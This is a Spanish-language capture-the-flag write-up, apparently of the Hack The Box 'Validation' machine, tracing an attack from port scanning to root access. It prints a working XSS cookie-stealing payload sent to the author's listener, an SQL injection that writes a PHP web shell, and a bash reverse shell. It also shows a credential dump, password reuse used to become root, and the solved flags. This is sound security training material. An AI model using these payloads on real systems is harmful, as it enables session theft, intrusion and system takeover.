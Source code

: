 ```yaml
---
title: 'CTF - Validation WriteUp'
date: '2022-02-08'
tags: ["CTF", "Hacking", "SQLInjection", "XSS", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: 'Reto CTF que consiste en escanear los puertos de una máquina y descubrir varios puertos abiertos. En el puerto 80 encontramos un formulario vulnerable a XSS, donde insertamos un script para robar cookies. Al recibir la petición, verificamos que el ataque funciona correctamente. Descubrimos que el campo de país del formulario es vulnerable a inyecciones SQL. Aprovechamos esta vulnerabilidad para obtener una shell y acceder a la configuración del sistema. Finalmente, encontramos las flags de usuario y root.'
images: ["/static/images/uploads/ctf-validation/validation.webp", "/static/images/uploads/ctf-validation/form.webp", "/static/images/uploads/ctf-validation/xss.webp"]
---
```


![](/static/images/uploads/ctf-validation/validation.webp)

Esta máquina es del creador de contenido de Ciberseguridad [IppSec](https://www.youtube.com/c/ippsec/videos). Podemos encontrar varias máquinas suyas en HTB y suelen ser todas bastante entretenidas.

En este caso empezamos con el escaneo de puertos.


```
nmap -p- -sS --open -T5 -vvv -n -Pn -oG allPorts 10.10.11.116
```
NMAP all ports discoveryEn mi caso, el parámetro --min-rate 5000 no me funciona bien. Seguramente tenga algo que ver la máquina virtual que utilizo, por lo que utilizo -T5 que es el modo loco de NMAP para ir tan rápido como pueda.

Descubrimos varios puertos abiertos.


```
❯ nmap -p22,80,4566,8080 -sCV -n -Pn 10.10.11.116 -oN targeted
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
El puerto 8080 devuelve un http status code 502 y el 4566 un 403 forbidden, por lo que nos centramos en el puerto 80.

En la página principal aparece un formulario donde podemos introducir un nombre y elegir un país.

![](/static/images/uploads/ctf-validation/form.webp)

Parece que al rellenarlo, nos lleva a otra página con la información registrada. Probamos una inyección XSS en el campo *Username* y avanzamos.


```
alert("XSS attack");
```
Pulsamos al botón de Join Now y encontramos lo siguiente.

![](/static/images/uploads/ctf-validation/xss.webp)

Una vez que validamos que es vulnerable a ataques XSS, busco el siguiente código en el cheatsheet de [R0B1NL1N](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md).


```
var i=new Image;i.src="http://10.10.14.14:8080/?"+document.cookie;
```
Y tras poner en escucha en nuestro equipo un servidor en el puerto 8080, recibo la siguiente petición. Lo que se ve a continuación soy yo entrando a la página y enviándome mi cookie de sesión *user=020fba18d39d4e3bbda3fa8396dd4563*. De esta forma verifico que todo funciona correctamente.


```
❯ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.14.14 - - [08/Feb/2022 18:39:45] "GET /?user=020fba18d39d4e3bbda3fa8396dd4563 HTTP/1.1" 200 -
```
Llegados a este punto cualquier usuario que entre a esa página, nos estará enviando su cookie de sesión. Continúo buscando cosas mientras dejo el servidor corriendo aunque ya os adelanto que por ese camino, no voy a conseguir nada más.

Retomando los pasos previos, intento ver si el formulario es vulnerable a injecciones SQL y veo que el input del país es vulnerable.

Monto Burpsuite, activo el proxy en mi navegador y modifico los parámetros de la petición /POST de la siguiente manera.


```
username=anyuser&country='union select "php system($_REQUEST['cmd']); ?" INTO OUTFILE "/var/www/html/shell.php"-- -
```
Me pongo en escucha con Netcat en mi máquina en el puerto 443 y realizo una petición a la siguiente URL.


```
http://10.10.11.116/shell.php?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.14%2F443%200%3E%261%0A
```
La URL está codificada. El contenido de cmd es bash -i & /dev/tcp/10.10.14.14/443 0&1.

Recibo la shell y lo primero que hago es ver la siguiente configuración en el directorio actual.


```
www-data@validation:/var/www/html$ cat config.php
php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?
```
Veo las credenciales de MySQL. Podría tratar de enumerar el contenido de la base de datos, pero pruebo por casualidad si soy capaz de ponerme como sudo con la misma contraseña.


```
www-data@validation: su -
uhc-9qual-global-pw
root@validation:~#
```
Llegados a este punto, tenemos acceso a todo el contenido. Enumero las flags y listo.


```
root@validation:~# cat /home/htb/user.txt
e4be632da67c582f555571fdfa8135d6
root@validation:~# cat root.txt
459129eac316e8f9a522758f2a362493
```
